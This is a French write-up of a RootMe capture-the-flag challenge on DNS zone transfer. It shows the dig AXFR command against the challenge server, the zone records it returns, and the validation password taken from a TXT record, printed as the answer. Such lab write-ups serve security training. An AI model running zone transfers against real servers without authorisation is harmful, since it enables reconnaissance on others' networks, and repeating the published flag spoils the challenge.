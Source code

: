 # Challenge RootMe :DNS - Transfert de Zone
**Catégorie** : Réseau    
**Difficulté** : ⭐⭐  
**Objectif** : Récupérer le mot de passe de validation en exploitant une mauvaise configuration de transfert de zone DNS.  

---

## 📝 Étapes de résolution

### 1. Identification de la cible
  - **Hôte** : `challenge01.root-me.org`
  - **Port** : `54011`
  - **Domaine** : `ch11.challenge01.root-me.org`
  - **Protocole** : `DNS`

### 2. Exécution de la commande de transfert de zone
  Utilisation de l'outil `dig` pour lancer une requête de transfert de zone :
  ```bash
  dig @challenge01.root-me.org -p 54011 AXFR ch11.challenge01.root-me.org.
  ```

### 3. Analyse de la réponse DNS

  La réponse obtenue présente plusieurs enregistrements DNS. Un extrait significatif de la réponse est le suivant :
  
  ```bash
  ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
  ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
  ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
  ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
  challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
  ```

### 4. Récupération du mot de passe

  L'enregistrement TXT contient le mot de passe de validation :
  
  ```plaintext
  DNS transfer secret key : CBkFRwfNMMtRjHY
  ```
  Ce qui nous permet d'obtenir directement le flag.

 **🛠 Outils utilisés** : 
  - dig : Utilitaire DNS en ligne de commande
  - Terminal UNIX/Linux : Pour exécuter la commande

**🏆 Solution finale** :  
 
  Mot de passe :
  ```plaintext
  CBkFRwfNMMtRjHY
  ```
